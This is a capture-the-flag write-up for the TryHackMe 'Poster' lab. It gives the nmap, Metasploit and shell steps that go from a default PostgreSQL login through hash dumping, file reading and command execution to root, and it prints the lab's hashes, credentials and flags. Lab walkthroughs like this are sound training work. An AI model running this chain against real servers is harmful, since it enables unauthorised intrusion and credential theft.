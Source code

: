 Poster | RDBMS

**export IP=10.10.197.127**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initila $IP

```
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
5432/tcp open  postgresql syn-ack ttl 63 PostgreSQL DB 9.5.8 - 9.5.10
```

# Metasploit

```
> use auxiliary/scanner/postgres/postgres_login
> set RHOSTS <IP>
> run
```

## Output

`[+] 10.10.197.127:5432 - Login Successful: postgres:password@template1`

#RDBMS Version

```
> use auxiliary/admin/postgres/postgres_sql
> set PASSWORD password
> auxiliary(admin/postgres/postgres_sql) > set USERNAME postgres
> auxiliary(admin/postgres/postgres_sql) > set RHOSTS 10.10.197.127
> auxiliary(admin/postgres/postgres_sql) > run
```

## Output

```
    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
```

# Hash Dump

```
use auxiliary/scanner/postgres/postgres_hashdump
set RHOSTS IP
run
```

## Output

```
 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc
```

# Reading a file

```
use auxiliary/admin/postgres/postgres_readfile
set RHOSTS IP
set PASSWORD password
set RFILE /home/dark/credentials.txt
run
```

## Output

`dark:qwerty1234#!hackme`

# Command Execution

```
use multi/postgres/postgres_copy_from_program_cmd_exec
set options
run
```

We have a shell!!

In dark's home, we find `credentials.txt`

`dark:qwerty1234#!hackme`

Since we know we are running PostgreSQL let's check /var/www/html

In this directory we find `confg.php`

```
cat config.php
<?php 
	
	$dbhost = "127.0.0.1";
	$dbuname = "alison";
	$dbpass = "p4ssw0rdS3cur3!#";
	$dbname = "mysudopassword";
?>
```

su alison

## user.txt

```
THM{postgresql_fa1l_conf1gurat1on}
```

# Privilege Escalation

The user `alison` can run all commands. 

sudo su

We are root!!

## root.txt

```
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```